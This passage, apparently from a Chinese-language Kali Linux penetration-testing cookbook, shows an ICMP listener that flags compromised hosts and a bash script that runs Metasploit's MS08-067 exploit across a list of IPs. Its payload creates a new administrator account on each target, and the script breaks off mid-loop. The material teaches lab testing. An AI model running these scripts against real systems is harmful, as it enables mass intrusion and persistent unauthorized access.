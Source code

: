 ```py

print "Listening for Incoming ICMP Traffic. Use Ctrl+C to stop scanning" 
sniff(lfilter=rules,store=0) 
```

脚本侦听所有传入的流量。 当接收到 TTL 值为 15或 更小的 ICMP 数据包时，脚本将系统标记为可利用。

```
root@KaliLinux:~# ./listener.py 
Listening for Incoming ICMP Traffic. Use Ctrl+C to stop scanning 
```

Python流量监听器应该首先执行。 脚本最初不应生成输出。 此脚本应该在开发过程的整个时间内持续运行。 一旦脚本运行，应该启动 bash 利用脚本。

```
root@KaliLinux:~# ./multipwn.sh iplist.txt 
Exploiting 172.16.36.132 and pinging 
Exploiting 172.16.36.158 and pinging 
Exploiting 172.16.36.225 and pinging

```

当执行脚本时，原始终端 shell 会显示每个系统正在被利用，并且正在执行`ping`序列。 还将为输入列表中的每个 IP 地址打开一个新的 GNOME 终端。 当每个利用过程完成时，应该从目标系统发起 ICMP 回响请求：

```
root@KaliLinux:~# ./listener.py 
Listening for Incoming ICMP Traffic. Use Ctrl+C to stop scanning 
172.16.36.132 is exploitable 
172.16.36.158 is exploitable 
172.16.36.225 is exploitable
```

假设攻击成功，Python 监听脚本会识别生成的流量，并将 ICMP 流量的每个源 IP 地址列为可利用。

### 工作原理

ICMP 流量似乎是一种用于验证目标系统的可利用性的非直观方式。 然而，它实际上工作得很好。 单个 ICMP 回响请求在目标系统上没有留下任何利用的痕迹，并且不需要过多的开销。 此外，将 TTL 值设为 15 不太可能产生误报，因为几乎所有系统都以 128 或更高的TTL值开始。

## 8.8 创建管理账户的多线程 MSF 利用

该秘籍展示了如何使用 bash ，在多个系统上利用单个漏洞，并在每个系统上添加一个新的管理员帐户。 该技术可以用于以后通过使用集成终端服务或 SMB 认证来访问沦陷的系统。

### 准备

要使用此秘籍中演示的脚本，你需要访问多个系统，每个系统都具有可使用 Metasploit 利用的相同漏洞。 提供的示例复制了运行 Windows XP 漏洞版本的 VM，来生成 MS08-067 漏洞的三个实例。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。 此外，本节还需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

下面的示例演示了如何使用 bash 脚本同时利用单个漏洞的多个实例。 特别是，此脚本可用于通过引用 IP 地址的输入列表来利用 MS08-067 NetAPI 漏洞的多个实例：

```sh
#!/bin/bash

if [ ! $1 ]; then echo "Usage: #./script <host file> <username> <password>"; 
exit; fi

iplist=$1 
user=$2 
pass=$3

for ip in $(cat $iplist) 
do   
    gnome-terminal -x msfcli exploit/windows/smb/ms08_067_netapi PAYLOAD=windows/exec CMD="cmd.exe /c \"net user $user $pass /add && net localgroup administrators $user /add\"" RHOST=$ip E   
```